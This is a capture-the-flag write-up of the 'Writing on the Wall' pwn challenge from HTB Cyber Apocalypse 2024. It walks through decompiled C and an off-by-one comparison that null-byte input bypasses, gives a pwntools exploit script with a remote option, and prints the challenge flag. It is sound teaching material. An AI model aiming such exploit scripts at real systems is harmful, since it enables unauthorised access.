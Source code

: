 ## Writing on the Wall [Very Easy]
### Initial Analysis
Basic verification of protections and possible vulnerabilities. As we can see, again all the binary protections are active, since it's a very easy challenge, again it shouldn't involve Buffer Overflow, ROP, or anything like that
```bash
~/writing-on-the-wall $ checksec writing_on_the_wall_patched
[*] '/home/flame/0x/ctf/htb-cyber-apocalypse-2024/pwn/writing-on-the-wall/challenge/writing_on_the_wall_patched'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

~/writing-on-the-wall $ cwe_checker writing_on_the_wall_patched
[CWE337] (0.1) RNG seed function srand at 001014e6 is seeded with predictable seed source.
```

Decompiled binary pseudo-C code
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[6]; // [rsp+Ah] [rbp-16h] BYREF
  char s2[8]; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  *(_QWORD *)s2 = ' ssapt3w';
  read(0, buf, 7uLL);
  if ( !strcmp(buf, s2) )
    open_door();
  else
    error("You activated the alarm! Troops are coming your way, RUN!\n");
  return 0;
}

unsigned __int64 open_door()
{
  char buf; // [rsp+3h] [rbp-Dh] BYREF
  int fd; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  fd = open("./flag.txt", 0);
  if ( fd < 0 )
  {
    perror("\nError opening flag.txt, please contact an Administrator.\n");
    exit(1);
  }
  printf("You managed to open the door! Here is the password for the next one: ");
  while ( read(fd, &buf, 1uLL) > 0 )
    fputc(buf, _bss_start);
  close(fd);
  return v3 - __readfsqword(0x28u);
}
```

The aim here is to access the open_door function, which will print out the challenge flag. To do this, we need to go through the if statement that checks if our input is equal to `s2` (**w3tpass**)
```c
s2 = 'ssapt3w';
read(0, buf, 7uLL);
if ( !strcmp(buf, s2) )
	open_door();
```

### Solution
The actual issue is that our input buffer size is `0x6` bytes, while the variable to be compared is 8 bytes, which causes a 1-byte overflow. To bypass this, we can just send **null bytes** as input, so it will compare **null byte** with **null byte**
```bash
~/writing-on-the-wall $ python2 -c "print '\x00' * 7" | ./writing_on_the_wall_patched

The writing on the wall seems unreadable, can you figure it out?
>> You managed to open the door! Here is the password for the next one: HTB{f4k3_fl4g_4_t35t1ng}
```

Thats our final exploit:
```python
#!/usr/bin/env python3
from pwn import *
import os

def start(argv=[], *a, **kw):
    """Start the exploit against the target."""
    if args.GDB:
        return gdb.debug(
            [exe] + argv, gdbscript=gdbscript, *a, **kw, env={"LD_PRELOAD": "/bin/bash"}
        )
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


prompt = ">> ".encode("utf-8")
slap = lambda y: p.sendlineafter(prompt, y)

exe = "./writing_on_the_wall_patched"
elf = context.binary = ELF(exe, checksec=False)

p = start()

slap(b"\x00" * 7)

flag = p.recvline().split()[-1].decode()
info("Flag: " + flag)
```

> Flag: `HTB{3v3ryth1ng_15_r34d4bl3}`
